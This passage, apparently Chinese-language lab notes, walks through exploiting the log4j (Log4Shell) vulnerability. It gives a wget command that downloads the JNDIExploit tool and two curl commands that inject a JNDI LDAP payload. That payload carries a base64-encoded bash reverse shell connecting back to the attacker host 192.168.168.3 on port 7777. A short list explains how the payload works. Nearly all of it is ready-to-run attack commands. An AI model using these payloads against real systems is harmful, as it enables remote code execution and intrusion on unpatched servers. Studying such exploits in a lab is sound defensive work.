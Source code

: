 #### 2. 评估log4j漏洞效果

##### 下载利用工具
```bash
wget https://github.com/Mr-xn/JNDIExploit/release/download/v1.2/JNDIExploit.v1.2.zip
```
![1741599510999](image/record/1741599510999.png)

#### 3. 构造攻击请求

##### 原始 PPT 中的命令：
```bash
curl http://192.168.20.6:35536/hello -d 'payload=${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```

##### 修改后的命令（用于避免 Shell 解析问题）：
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 | tr -d '\n' | sed 's/+/%2B/g' | sed 's/=/%3D/g')}" http://192.168.20.6:35536/hello
```
![1741599405269](image/record/1741599405269.png)

##### Payload 说明：
- 使用 `${jndi:ldap://...}` 构造恶意 JNDI 字符串。
- 将反向 shell 命令 `bash -i >& /dev/tcp/192.168.168.3/7777 0>&1` 转换为 Base64 编码，以适配 URL 参数格式。
- 目标服务器执行该 payload 后，会尝试连接攻击者的 IP 地址 `192.168.168.3` 和端口 `7777`。

